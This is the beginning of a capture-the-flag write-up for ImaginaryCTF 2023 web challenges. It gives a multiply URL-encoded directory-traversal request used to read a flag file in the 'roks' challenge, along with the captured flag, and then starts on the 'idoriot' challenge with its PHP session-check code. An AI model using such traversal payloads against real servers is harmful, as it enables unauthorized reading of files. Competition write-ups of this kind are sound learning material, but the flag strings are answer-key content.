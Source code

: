 ```yaml
---
title: "ImaginaryCTF2023 - webx7, forx2"
layout: single
excerpt: "📅 Time: Thứ 7, 22 July 2023, 02:00 ICT — Thứ 2, 24 July 2023, 02:00 ICT  (~GMT +7)
✅ Rating weight: 34,52
💻 Official URL: https://2023.imaginaryctf.org"
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/SkEU-Nii6.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - English
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/SkEU-Nii6.png">
</p>


# Web
## roks
my payload: 
```
GET /file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng
```
Flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`

## idoriot
Source code:
```php
<?php

session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}
```